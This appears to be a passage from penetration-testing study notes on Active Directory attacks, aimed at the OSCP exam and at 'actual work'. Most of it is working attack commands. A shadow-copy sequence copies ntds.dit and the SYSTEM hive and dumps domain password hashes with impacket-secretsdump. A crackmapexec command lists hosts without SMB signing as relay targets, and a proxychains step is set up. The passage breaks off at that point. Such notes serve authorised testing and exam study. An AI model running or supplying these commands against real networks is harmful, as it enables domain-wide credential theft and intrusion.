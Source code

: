 ### Constrained delegation

Constrained delegation, if delegation must be used, is a much safer alternative as it restricts delegation to specific services. 

## Cracking Shdow copies 

```powershell

# 1. create a shadow copy of volume C:

vshadow.exe -nw -p  C:

# 2. copy shadow copies device name

Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

# 3. copy ntds.dit from the Shadow to local disk 

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

# 4. get system from current 

reg.exe save hklm\system c:\system.bak

# 5. use impackets secrets dump

impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

```


## Relay Attacks

THIS PART IS NOT NEEDED FOR OSCP BUT IS VERY NEEDED FOR YOUR ACTUAL WORK!

## NTLM relay to SMB

NTLMv2 can be captured by Responder using various poisoning techniques. BUT IT CANNOT BE FORWARDED LIKE NORMAL NTLM.

NSo to exploit it you need to setup a relay and perform all actions through it:

1. crackmapexec genrelay: list hosts without SMB signing

`cme smb <197.1.1.0/24> --gen-relay-list './hosts/targets_smb_no_sign.txt'`

2. configure proxychains

```bash
sudo nano /etc/proxychains4.conf

#socks4 127.0.0.1 1080
```
